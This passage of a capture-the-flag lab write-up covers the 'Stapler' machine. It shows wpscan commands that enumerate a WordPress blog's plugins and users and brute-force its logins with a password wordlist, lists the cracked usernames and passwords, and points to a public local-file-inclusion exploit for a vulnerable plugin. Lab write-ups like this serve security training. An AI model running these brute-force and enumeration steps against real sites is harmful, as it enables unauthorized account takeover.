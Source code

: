 **Wordpress:** https://192.168.211.148:12380/blogblog/

## WPScan

Perform wpscan to enumerate themes, plugins and users.

```sh
wpscan --url <URL> --enumerate p --enumerate t --enumerate u
```

## Brute Force wordpress credentials

```sh
wpscan --url https://192.168.211.148:12380/blogblog/ --disable-tls-checks -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000.txt
```

```text
garry:footbal
harry:monkey
scott:cookie  
```

Unfortunately none of the above users are administrators, we need admin account to get initial foothold.

## More Recon

https://192.168.208.148:12380/blogblog/wp-content/

![img](/assets/images/CTF/Proving_Grounds/Stapler/content.png)

The plugin advanced-video-embed is vulnerable to [WordPress Plugin Advanced Video 1.0 - Local File Inclusion](https://www.exploit-db.com/exploits/39646).
